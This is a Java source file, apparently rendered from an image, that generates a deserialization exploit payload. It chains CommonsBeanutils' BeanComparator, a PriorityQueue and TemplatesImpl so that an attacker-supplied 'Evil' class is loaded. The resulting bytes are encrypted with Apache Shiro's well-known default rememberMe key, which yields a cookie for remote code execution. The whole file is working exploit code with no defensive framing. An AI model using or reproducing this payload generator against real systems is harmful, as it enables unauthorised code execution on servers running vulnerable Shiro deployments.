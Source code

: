 ```


public class CommonsBeanutilsString {

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public byte[] getPayload(byte[] clazzBytes) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{clazzBytes});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        // stub data for replacement later
        queue.add("1");
        queue.add("1");

        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});

        // ==================
        // 生成序列化字符串
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();

        return barr.toByteArray();
    }

    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(Evil.class.getName());
//        byte[] bytes = Evil.class.getName().getBytes();
//        byte[] payloads = new CommonsBeanutils1Shiro().getPayload(bytes);
        byte[] payloads = new CommonsBeanutilsString().getPayload(clazz.toBytecode());

        AesCipherService aes = new AesCipherService();
        byte[] key = java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");

        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());
    }

}
```
